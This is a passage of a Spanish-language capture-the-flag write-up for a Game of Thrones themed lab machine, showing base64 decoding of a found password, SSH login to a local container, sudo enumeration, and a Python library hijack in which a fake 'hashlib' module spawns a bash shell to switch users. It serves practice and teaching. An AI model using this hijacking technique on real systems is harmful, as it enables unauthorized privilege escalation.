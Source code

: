 Ahora vemos su contenido:
```bash
 Aria de ti depende que los caminantes blancos no consigan pasar el muro. 
 Tienes que llevar a la reina Daenerys el mensaje, solo ella sabra interpretarlo. Se encuentra cifrado en un lenguaje antiguo y dificil de entender.
 Esta es mi contraseña, se encuentra cifrada en ese lenguaje y es -> aGlqb2RlbGFuaXN0ZXI=
```

Sabiendo que **base64** procedemos a desencriptarla:
```bash
echo "aGlqb2RlbGFuaXN0ZXI=" | base64 -d
```

Resultado:
```bash
hijodelanister
```
### Intrusion
Realizaremos la intrusion por ssh y colocamos la contrasena de este usuraio: ( hijodelanister )
```bash
ssh-keygen -R 172.17.0.2 && ssh jon@172.17.0.2
```

---
## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
sudo -l

User jon may run the following commands on 0a1e62a2caad:
    (aria) NOPASSWD: /usr/bin/python3 /home/jon/.mensaje.py # Tenemos un script que nos permitira escalar a este usuario
```

**Hallazgos Clave:**
- Binario con privilegios: `[ /usr/bin/python3 ]`
- Credenciales de usuario: `[ aria ]:[ ]`

### Explotacion de Privilegios

###### Usuario `[ Aria ]`:
Revisando el script vemos que esta emplenado la libreria: **( hashlib )** y para poder migrar a el usuario **Aria** tendremos que secuestrar esa libreria de la siguiente manera:

###### hashlib
Crearemos nuestro script propio que sustituira a la libreria legitima, Con las siguientes instrucciones:
```bash
import os
os.system("/bin/bash")
```
